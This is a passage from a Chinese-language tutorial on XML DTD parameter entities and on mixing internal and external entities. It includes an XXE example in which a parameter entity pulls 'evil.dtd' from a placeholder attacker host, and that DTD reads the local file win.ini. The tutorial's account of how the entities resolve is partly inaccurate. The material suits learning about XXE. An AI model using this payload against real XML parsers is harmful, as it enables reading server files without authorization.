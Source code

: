 ```bash
<!ENTITY % myContent "<element>Some content</element>">
<!ELEMENT root (%myContent;)>
```

在上述示例中我们定义了一个名为 myContent 的参数实体，它的值是<element>Some content</element>，然后在 root 元素的声明中我们使用%myContent;来引用该参数实体，参数实体的主要优点是可以简化 DTD 的定义和维护，通过定义和引用参数实体，可以在 DTD 中重复使用 DTD 片段，从而减少冗余和提高可维护性，此外参数实体还可以在 DTD 的不同部分进行扩展或修改以满足特定需求，而无需修改每个引用的地方，下面是一个结合了参数实体声明和引用的示例：

```bash
<!DOCTYPE foo [<!ELEMENT foo ANY >
<!ENTITY  % xxe SYSTEM "http://xxx.xxx.xxx/evil.dtd" >
%xxe;]>

<foo>&evil;</foo>
```

外部 evil.dtd 中的内容：

```bash
<!ENTITY evil SYSTEM "file:///c:/windows/win.ini" >
```

文档解释说明：

-   <!DOCTYPE foo \[...\]>：这是 XML 文档的文档类型声明 (Document Type Declaration)，指定该文档遵循的 DTD 规则，在这里 foo 是文档类型的名称
-   <!ELEMENT foo ANY>：这是 DTD 中的元素声明，定义了元素 foo 的内容模型，在这里 foo 元素允许包含任何内容
-   <!ENTITY % xxe SYSTEM "[http://xxx.xxx.xxx/evil.dtd">：这是一个参数实体声明，定义了一个名为xxe的参数实体，其值是指向位于](http://xxx.xxx.xxx/evil.dtd) "[http://xxx.xxx.xxx/evil.dtd"的外部DTD文件的URI，这个DTD文件可能包含一些恶意的内容](http://xxx.xxx.xxx/evil.dtd)
-   %xxe;：这是一个参数实体引用，用于在 DTD 中插入参数实体的值，在这里它将被替换为指向外部 DTD 文件的 URI
-   <foo>：这是 XML 文档中的一个元素，它与之前定义的 foo 元素相对应</foo>
-   &evil;：这是一个实体引用，引用了名为 evil 的实体，根据之前的定义，evil 实体的值将被替换为外部 DTD 文件的 URI

### 内外实体声明

内外部 DTD 结合使用的格式如下所示：

```bash
<!DOCTYPE 根元素 SYSTEM "DTD 文件路径" [定义内容]>
```

下面是一个 XML 示例，演示了内部实体和外部实体的混合使用

```bash
<!DOCTYPE example [
  <!ENTITY author "John Doe">
  <!ENTITY company SYSTEM "company.txt">
]>
<book>
  <title>XML Basics</title>
  <author>&author;</author>
  <publisher>&company;</publisher>
</book>
```

在上述示例中我们定义了一个包含内部实体和外部实体的 DTD 外部声明，DTD 外部声明位于 DOCTYPE 标记中的 example 部分
